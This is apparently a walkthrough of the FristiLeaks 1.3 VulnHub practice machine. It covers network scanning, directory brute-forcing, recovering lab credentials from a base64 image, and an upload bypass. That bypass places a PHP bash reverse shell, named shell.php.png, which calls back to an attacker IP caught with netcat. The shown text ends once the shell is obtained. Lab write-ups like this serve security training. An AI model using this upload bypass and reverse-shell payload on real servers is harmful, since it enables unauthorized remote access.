

# FristiLeaks: 1.3

\

## 

## FristiLeaks: 1.3

- **FristiLeaks: 1.3** :-

<!-- -->

- Download the machine :
  <https://www.vulnhub.com/entry/fristileaks-13,133/>



- Open ova file .
- Then click finish .
- Replace mac address with the machine description .



- Start the machine .

1.  Network Scanning :

- Find the machine IP :

    nmap -sn 192.168.2.0/24



- Run nmap master command :

    nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.168

- Find available port in the machine ( Optional ) :

    nmap -v -p- 192.168.2.168

- 

    nmap -sC -sV -A 192.168.2.168

- This command runs an aggressive scan and uses the http-enum script to
  identify potential CGI directories .

    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.168



1.  Web Enumeration :

- IP visit in browser : <http://192.168.2.168>
  <http://192.168.2.168/robots.txt>

<!-- -->

- Directory brute force to find endpoints :

    gobuster dir -u http://192.168.2.168 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,bak,zip -t 50

- Visit the endpoints : <http://192.168.2.168/beer/>
  <http://192.168.2.168/cola/>



- Now I can try to manual /fristi endpoints :
  <http://192.168.2.168/fristi/>

- View the source code :

    view-source:http://192.168.2.168/fristi/





- Found the base64 encoded value :

    iVBORw0KGgoAAAANSUhEUgAAAW0AAABLCAIAAAA04UHqAAAAAXNSR0IArs4c6QAAAARnQU1BAACx
    jwv8YQUAAAAJcEhZcwAADsMAAA7DAcdvqGQAAARSSURBVHhe7dlRdtsgEIVhr8sL8nqymmwmi0kl
    S0iAQGY0Nb01//dWSQyTgdxz2t5+AcCHHAHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixw
    B4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzkCwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL5kc+f
    m63yaP7/XP/5RUM2jx7iMz1ZdqpguZHPl+zJO53b9+1gd/0TL2Wull5+RMpJq5tMTkE1paHlVXJJ
    Zv7/d5i6qse0t9rWa6UMsR1+WrORl72DbdWKqZS0tMPqGl8LRhzyWjWkTFDPXFmulC7e81bxnNOvb
    DpYzOMN1WqplLS0w+oaXwomXXtfhL8e6W+lrNdDFujoQNJ9XbKtHMpSUmn9BSeGf51bUcr6W+VjNd
    jJQjcelwepPCjlLNXFpi8gktXfnVtYSd6UpINdPFCDlyKB3dyPLpSTVzZYnJR7R0WHEiFGv5NrDU
    12qmC/1/Zz2ZWXi1abli0aLqjZdq5sqSxUgtWY7syq+u6UpINdOFeI5ENygbTfj+qDbc+QpG9c5
    uvFQzV5aM15LlyMrfnrPU12qmC+Ucqd+g6E1JNsX16/i/6BtvvEQzF5YM2JLhyMLz4sNNtp/pSkg1
    04VajmwziEdZvmSz9E0YbzbI/FSycgVSzZiXDNmS4cjCni+kLRnqizXThUqOhEkso2k5pGy00aLq
    i1n+skSqGfOSIVsKC5Zv4+XH36vQzbl0V0t9rWb6EMyRaLLp+Bbhy31k8SBbjqpUNSHVjHXJmC2Fg
    tOH0drysrz404sdLPW1mulDLUdSpdEsk5vf5Gtqg1xnfX88tu/PZy7VjHXJmC21H9lWvBBfdZb6Ws
    30oZ0jk3y+pQ9fnEG4lNOco9UnY5dqxrhk0JZKezwdNwqfnv6AOUN9sWb6UMyR5zT2B+lwDh++Fl
    3K/U+z2uFJNWNcMmhLzUe2v6n/dAWG+mLN9KGWI9EcKsMJl6o6+ecH8dv0Uu4PnkqDl2rGuiS8HK
    ul9iMrFG9gqa/VTB8qORLuSTqF7fYU7tgsn/4+zfhV6aiiIsczlGrGvGTIlsLLhiPbnh6KnLDU12q
    mD+0cKQ8nunpVcZ21Rj7erEz0WqoZ+5IRW1oXNB3Z/vBMWulSfYlm+hDLkcIAtuHEUzu/l9l867X34
    rPtA6lmLi0ZrqX6gu37aIukRkVaylRfqpk+9HNkH85hNocTKC4P31Vebhd8fy/VzOTCkqeBWlrrFhe
    EPdMjO3SSys7XVF+qmT5UcmT9+Ss//fyyOLU3kWoGLd59ZKb6Us10IZMjAP5b5AgAL3IEgBc5AsCLH
    AHgRY4A8CJHAHiRIwC8yBEAXuQIAC9yBIAXOQLAixwB4EWOAPAiRwB4kSMAvMgRAF7kCAAvcgSAFzk
    CwIscAeBFjgDwIkcAeJEjALzIEQBe5AgAL3IEgBc5AsCLHAHgRY4A8Pn9/QNa7zik1qtycQAAAABJR
    U5ErkJggg==

- Visit the base64 url and decode the value :

    https://onlinepngtools.com/convert-base64-to-png



- Login the page with the valid username and password :

    Username : eezeepz
    Password : keKkeKKeKKeKkEkkEk



- Successfully login : <http://192.168.2.168/fristi/login_success.php>

1.  Reverse Shell :

- Go to upload file : <http://192.168.2.168/fristi/upload.php>



- Make a image file with reverse shell payload :

    nano shell.php.png

- 

    <?php `/bin/bash -c 'bash -i >& /dev/tcp/192.168.2.219/443 0>&1'`; ?>

- Upload the file :



- Our file is uploaded. :

- Start the listener :

    nc -nlvp 443

- Call the file :

    http://192.168.2.168/fristi/uploads/shell.php.png

- We got the shell :

